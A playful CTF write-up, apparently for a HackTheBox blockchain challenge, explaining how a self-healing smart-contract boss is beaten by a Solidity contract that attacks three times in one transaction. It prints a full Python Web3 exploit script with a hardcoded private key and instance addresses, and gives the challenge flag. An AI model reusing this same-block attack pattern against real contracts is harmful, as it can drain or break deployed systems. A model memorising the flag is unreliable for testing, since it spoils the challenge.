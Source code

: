 ```yaml
---
title: Hacqueen vs Eldorion
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/hacqueenvsdrakepng)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its ""eternal resilience"" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.*

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

### Solidity Contract

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

### Python Exploit Script

```python
from web3 import Web3
from solcx import compile_source, install_solc, set_solc_version
import socket
import time

RPC_URL = "http://94.237.57.68:53823"
PRIVATE_KEY = "0xd97be7b491c9349d726d8757df1ce9a65cc18f5cd6c9d497eb29284663107a15"
PLAYER_ADDRESS = "0x886180A2D97C803E011e744d6757f7E4b923E0a0"
TARGET_ADDRESS = "0x3BE1F55b1De2B149C77677052975c6C2C58BDe91"
SETUP_ADDRESS = "0x926B826A715B4B7438c88cD7d8d523A70f03Bd63"
INTERFACE_HOST = "94.237.57.68"
INTERFACE_PORT = 40453

SOURCE = """
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
"""

install_solc("0.8.28")
set_solc_version("0.8.28")
w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

compiled = compile_source(SOURCE)
interface = compiled.popitem()[1]
SlayerContract = w3.eth.contract(abi=interface['abi'], bytecode=interface['bin'])

deploy_tx = SlayerContract.constructor(TARGET_ADDRESS).build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 300000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(deploy_tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

if receipt.contractAddress is None:
    print("❌ Deployment failed.")
    exit(1)

slayer_address = receipt.contractAddress
slayer_instance = w3.eth.contract(address=slayer_address, abi=interface['abi'])

slay_tx = slayer_instance.functions.slay().build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 200000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(slay_tx)
w3.eth.send_raw_transaction(signed.raw_transaction)
time.sleep(2)

setup_abi = [{
    "inputs": [],
    "name": "isSolved",
    "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
    "stateMutability": "view",
    "type": "function"
}]
setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
solved = setup.functions.isSolved().call()

if solved:
    print("✅ Challenge Solved!")
    with socket.create_connection((INTERFACE_HOST, INTERFACE_PORT)) as sock:
        sock.recv(4096)
        sock.sendall(b"3\n")
        flag = sock.recv(4096).decode()
        print("[🏁] FLAG:\n" + flag)
else:
    print("❌ Eldorion still stands...")
```

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.
